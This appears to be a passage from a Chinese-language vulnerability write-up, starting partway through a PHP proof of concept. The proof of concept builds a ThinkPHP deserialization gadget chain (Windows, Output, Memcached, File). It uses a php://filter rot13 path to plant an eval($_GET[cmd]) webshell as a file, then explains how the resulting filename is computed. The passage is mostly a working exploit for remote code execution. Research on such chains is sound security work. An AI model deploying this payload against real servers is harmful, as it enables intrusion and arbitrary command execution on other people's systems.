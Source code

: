 ```php
    protected $model;
    function __construct(){
        $this->model = new Output();
    }
}

namespace think\session\driver;#Memcached
use think\cache\driver\File;
class Memcached{
    protected $handler = null;
    function __construct(){
        $this->handler = new File();//目的调用File->set()
    }
}
namespace think\cache\driver;#File
class File{
    protected $options = [];
    protected $tag;
    function __construct(){
        $this->options = [
        'expire'        => 0,
        'cache_subdir'  => false,
        'prefix'        => '',
        'path'          => 'php://filter/write=string.rot13/resource=./<?cuc cucvasb();riny($_TRG[pzq]);?>',
        'data_compress' => false,
        ];
        $this->tag = true;
    }
}

namespace think\model;
use think\Model;
class Pivot extends Model{


}
use think\process\pipes\Windows;
echo base64_encode(serialize(new Windows()));
```

该poc仅可在linux下使用，Windows对文件名有限制。

生成文件名规则：


```bash
md5('tag_'.md5($this->tag))
即:
md5('tag_c4ca4238a0b923820dcc509a6f75849b')
=>3b58a9545013e88c7186db11bb158c44
=>
<?cuc cucvasb();riny($_TRG[pzq]);?> + 3b58a9545013e88c7186db11bb158c44
最终文件名：
<?cuc cucvasb();riny($_TRG[pzq]);?>3b58a9545013e88c7186db11bb158c44.php
```
